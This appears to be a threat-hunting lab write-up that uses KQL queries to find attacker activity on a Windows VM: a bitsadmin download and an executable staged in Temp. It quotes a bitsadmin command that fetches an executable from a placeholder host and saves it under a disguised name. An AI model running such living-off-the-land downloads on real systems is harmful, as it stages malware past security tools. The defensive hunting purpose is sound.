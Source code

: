 
### ⚙️ Flag 5 – LOLBin Usage: bitsadmin

**Objective:**
Identify a stealthy download executed using native Windows utilities.

**What to Hunt:**
Look for executions of bitsadmin.exe with URLs and local paths — common signs of file transfer abuse.

**Identified Command:**
"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe

**Why It Matters:**
bitsadmin.exe is a living-off-the-land binary (LOLBin) often abused by attackers to download payloads while bypassing traditional security tools. In this case, a file named crypto_toolkit.exe was silently fetched and stored as market_sync.exe in the user’s Temp directory — an early-stage staging indicator.

**KQL Query Used:**
```
DeviceProcessEvents
| where DeviceName == "michaelvm"
| where ProcessCommandLine contains "bitsadmin.exe"
| project Timestamp, DeviceName,FileName , ProcessCommandLine, InitiatingProcessFileName
| sort by Timestamp asc
```
<img width="1593" height="146" alt="8c64117d-905c-45e7-a06d-870483997136" src="https://github.com/user-attachments/assets/90c04309-ae3c-4937-a477-50bd1f00f80f" />


### 💾 Flag 6 – Suspicious Payload Deployment

**Objective:**
Identify executable payloads dropped in nonstandard or staging directories.

**What to Hunt:**
Look for .exe files created in folders like Temp, AppData, or Downloads — especially those with deceptive or business-related names.

**Identified Payload:**

- File Name: ledger_viewer.exe

- Folder Path: C:\Users\Mich34L_id\AppData\Local\Temp\ledger_viewer.exe

- Device: michaelvm

**Why It Matters:**
The executable ledger_viewer.exe appears financial in nature but was deployed into the user’s Temp directory, a common location used for staging malware. The naming suggests an attempt to blend in as a legitimate utility, aligning with pre-execution payload setup.

**KQL Query Used:**
```
DeviceFileEvents
| where DeviceName == "michaelvm"
| where FileName contains "ledger"
| where FileName contains "exe"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath
```
